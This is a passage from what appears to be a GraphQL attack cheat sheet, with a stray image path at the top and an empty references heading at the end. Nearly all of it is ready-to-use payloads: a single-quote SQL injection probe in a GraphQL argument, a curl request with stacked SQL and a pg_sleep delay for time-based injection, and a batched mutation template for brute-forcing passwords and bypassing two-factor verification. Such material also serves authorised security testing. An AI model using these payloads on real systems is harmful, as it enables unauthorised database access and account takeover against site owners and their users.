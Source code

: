 ### SQL injection

Send a single quote `'` inside a graphql parameter to trigger the SQL injection

```powershell
{
    bacon(id: "1'") {
        id,
        type,
        price
    }
}
```

Simple SQL injection inside a graphql field.

```powershell
curl -X POST http://localhost:8080/graphql\?embedded_submission_form_uuid\=1%27%3BSELECT%201%3BSELECT%20pg_sleep\(30\)%3B--%27
```

### GraphQL Batching Attacks

Common scenario:

- Password Brute-force Amplification Scenario
- 2FA bypassing

```powershell
mutation finishChannelVerificationMutation(
  $input FinishChannelVerificationInput!,
  $input2 FinishChannelVerificationInput!,
  $input3 FinishChannelVerificationInput!,
){
  first: finishChannelVerificationMutation(input: $input){
    channel{
      id
      option{
        ... onChannelSmsOptions{
          number
        }
      }
      status
      notificationSubscription(last: 1000){ etc...  }
    }
  }


  second: finishChannelVerificationMutation(input: $input2){...}
  third: finishChannelVerificationMutation(input: $input3){...}
}
```

## References
